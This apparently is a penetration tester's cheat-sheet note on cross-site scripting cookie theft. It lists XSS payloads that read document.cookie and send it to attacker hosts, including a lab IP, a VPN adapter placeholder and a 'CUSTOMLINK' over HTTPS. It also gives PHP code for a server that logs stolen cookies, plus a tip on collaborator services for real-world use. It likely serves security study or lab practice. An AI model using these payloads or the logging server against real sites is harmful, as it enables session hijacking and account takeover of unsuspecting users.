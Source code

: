 [[Pentest/Vulns/XSS/XSS|XSS]]

If HttpOnly is off:
[[HttpOnly]]
```html
"><img src=x onerror=prompt(document.domain)>

"><img src=x onerror=confirm(1)>

"><img src=x onerror=alert(1)>

<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>

	
<script src="http://10.10.14.204:8888/?test=1" />
```

Server for recieving cookies:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

**N.B.** Use https://app.interactsh.com/#/ or Burp Collaborator for real word (bc of https)

HTTPS payload
```html
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
if CORS and SOP policy allows ajax-requests [[CORS]] [[SOP]]
```html
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```
